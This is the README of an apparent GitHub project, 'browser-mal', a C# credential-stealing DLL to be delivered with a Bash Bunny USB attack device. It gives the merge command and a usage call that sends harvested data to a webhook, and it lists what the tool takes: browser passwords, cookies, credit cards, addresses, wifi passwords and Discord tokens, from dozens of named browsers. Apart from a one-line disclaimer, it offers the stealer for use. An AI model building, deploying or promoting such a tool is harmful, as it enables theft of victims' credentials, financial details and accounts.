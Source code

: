 # browser-mal
This was made to be used with bash bunny for experimenting with payloads.
Please do not use for illegal activities.

## Merge Dll's

```
ILMerge.exe /out:browser.mal.dll BrowserMal.dll BouncyCastle.Crypto.dll Newtonsoft.Json.dll 
```

## Usage
```
BrowserMal.Class1.StartCreds(<webhook>, extractWifi: true);
```

## Functionality
- Extracts passwords, cookies, credit cards and addresses from gecko and chromium based browsers.
- Extracts saved wifi passwords.
- Extracts discord tokens.

## Browsers supported

- Chrome
- Opera
- Yandex
- 360 Browser
- Comodo Dragon
- CoolNovo
- SRWare Iron
- Torch Browser
- Brave Browser
- Iridium Browser
- 7Star
- Amigo
- CentBrowser
- Chedot
- CocCoc
- Elements Browser
- Epic Privacy Browser
- Kometa
- Orbitum
- Sputnik
- uCozMedia
- Vivaldi
- Sleipnir 6
- Citrio
- Coowon
- Liebao Browser
- QIP Surf
- Edge Chromium
- Firefox Developer
- SeaMonkey
- Firefox Nightly
- Waterfox
- Mozilla Thunderbird
- Pale Moon
